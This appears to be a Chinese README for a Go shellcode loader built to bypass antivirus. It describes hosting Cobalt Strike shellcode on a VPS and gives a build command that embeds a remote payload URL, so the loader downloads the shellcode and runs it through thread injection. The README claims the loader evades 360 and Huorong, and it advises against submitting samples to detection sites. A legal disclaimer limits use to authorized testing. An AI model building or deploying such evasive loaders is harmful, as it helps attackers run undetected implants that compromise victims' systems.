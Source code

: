 # go加载器bypass
最近刚开始学习go语言写加载器，参考了几篇文章，利用线程注入和-race、载荷分离远程下载shellcode进行编译

1、首先用cs生成raw的shellcode上传到自己的vps服务器上

2、编译：go build -ldflags "-s -w -X main.url=http://xx.xx.xx.xx/payload.bin" -o 1.exe -race shellcode.go

3、VT查杀14，但是截止到目前为止，360与火绒都能bypass

![image](https://user-images.githubusercontent.com/84514302/129006676-eebc4fbc-2fda-45be-b0c7-c75b28177be8.png)
![image](https://user-images.githubusercontent.com/84514302/129006765-79440268-bd9e-4760-b029-fec262f3b260.png)

本人刚开始学习免杀，还很菜，此源码参考了https://github.com/fcre1938/goShellCodeByPassVT/blob/main/main.go

欢迎大佬提出建议

# 声明
依照《中华人民共和国网络安全法》等相关法规规定，任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序、工具；明知他人从事危害网络安全的活动的，不得为其提供技术支持、广告推广、支付结算等帮助。

本项目严禁用于非法网络入侵！仅限用于技术研究和获得正式授权的测试活动！

# 建议
建议大家实验中不要上传到virustotal、微步在线等检测网站
